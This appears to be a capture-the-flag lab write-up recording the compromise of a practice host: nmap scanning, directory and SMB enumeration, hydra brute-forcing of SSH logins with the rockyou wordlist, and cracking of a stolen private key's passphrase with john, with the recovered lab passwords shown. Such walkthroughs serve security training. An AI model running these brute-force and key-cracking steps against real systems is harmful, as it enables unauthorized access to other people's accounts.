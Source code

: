 # Open port

***nmap -sV -sC 10.10.218.209*** (sV for understand what service there is on each port, sC to run default script)
***************
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
***************

# Find secret web path
dirsearch/dirbuster to find the hidden directories.

***dirsearch -u http://10.10.218.209***


# Find usernames
try to enumerate smb protocol
***enum4linux -a 10.10.218.209*** (this is a tool to enumerate windows and smb)
*************
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
*****************
# crack the password
***hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.218.209***

using hydra to crack the password of ssh

***********
[22][ssh] host: 10.10.218.209   login: jan   password: armando
***************


# find password for kay

in /home/kay/.ssh there is the private key to be used to log in in ssh with kay user:

***ssh -i id_rsa kay@10.10.218.209***

this key is protected by a passphrase, so we can crack it with john the ripper:

(key_id_rsa is a copy of ssh key)


***/opt/john/ssh2john.py kay_id_rsa > forJohn.txt***

this will put the key in a format that john the ripper can understand


now we can crack the pass with john using rockyou wordlist:

***/opt/john/john forJohn.txt --wordlist=/usr/share/wordlists/rockyou.txt*** 

*****************
beeswax          (kay_id_rsa)
**************
# Find the password for kay

once we logged in with the kay user we can read the pass.bat file to get the kay's password and finish the room.